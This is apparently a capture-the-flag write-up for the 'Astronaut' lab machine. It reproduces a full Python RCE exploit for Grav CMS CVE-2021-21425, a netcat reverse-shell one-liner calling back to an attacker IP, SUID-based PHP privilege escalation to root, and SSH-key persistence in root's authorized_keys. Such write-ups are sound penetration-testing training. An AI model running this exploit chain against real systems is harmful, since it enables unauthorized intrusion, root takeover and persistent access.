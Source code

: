 # Astronaut

### Proving Grounds Practice

Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.

#### Nmap Results

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```


Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.


![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)


![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)


A quick search for related exploits turns up an interesting find. 


#### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)

```
https://github.com/CsEnox/CVE-2021-21425
```


#### Exploit

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```


Setting our listener to port 4444. Then sending the exploit command.


![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)


#### Command Line

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```


We get a reverse shell, as www-data.


![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)


#### Stabilize Shell

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```


![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)


We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.

#### SUID Hunting

```
find / -perm -u=s 2>/dev/null
```
<br>
<br>

![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)


Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.


#### Escalate Privileges

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```


![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)


Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file.


#### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```